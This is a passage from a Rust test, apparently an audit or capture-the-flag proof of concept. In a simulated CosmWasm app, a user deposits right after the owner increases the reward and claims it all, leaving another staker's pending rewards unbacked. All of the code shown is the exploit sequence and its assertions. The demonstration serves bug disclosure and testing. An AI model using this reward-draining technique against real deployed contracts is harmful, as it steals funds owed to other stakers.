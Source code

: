 ```rust
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &QueryMsg::State {})
            .unwrap();
        assert_eq!(state.total_staked, Uint128::new(10_000));

        // ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ Exploit starts here
        // OWNER increases reward
        app = mint_reward_tokens(app, OWNER.to_owned(), Uint128::new(10_000));
        app.execute_contract(
            Addr::unchecked(OWNER),
            contract_addr.clone(),
            &ExecuteMsg::IncreaseReward {},
            &[coin(10_000, REWARD_DENOM)],
        )
        .unwrap();

        // USER1 was waiting for this and immediately stakes again
        app.execute_contract(
            Addr::unchecked(USER),
            contract_addr.clone(),
            &ExecuteMsg::Deposit {},
            &[coin(10_000, DENOM)],
        )
        .unwrap();

        // USER1 then claims rewards before USER2 can claim rewards
        app.execute_contract(
            Addr::unchecked(USER),
            contract_addr.clone(),
            &ExecuteMsg::ClaimRewards {},
            &[],
        )
        .unwrap();

        // Verify that USER1 got all 10_000 reward tokens deposited by OWNER, leaving nothing for USER2
        let balance = app
            .wrap()
            .query_balance(USER.to_string(), REWARD_DENOM)
            .unwrap()
            .amount;
        // Before the exploit they had 15_000, they now have 25_000
        assert_eq!(balance, Uint128::new(25_000));

        // USER2 is -supposed- to have 15_000 rewards available...
        let user_info: UserRewardInfo = app
            .wrap()
            .query_wasm_smart(
                contract_addr.clone(),
                &QueryMsg::User {
                    user: USER2.to_string(),
                },
            )
            .unwrap();
        assert_eq!(user_info.pending_rewards, Uint128::new(15_000));

        // ...but the contract only has 5_000 tokens
        let contract_balance = app
            .wrap()
            .query_balance(contract_addr.clone().to_string(), REWARD_DENOM)
            .unwrap()
            .amount;
        assert_eq!(contract_balance, Uint128::new(5_000));
```
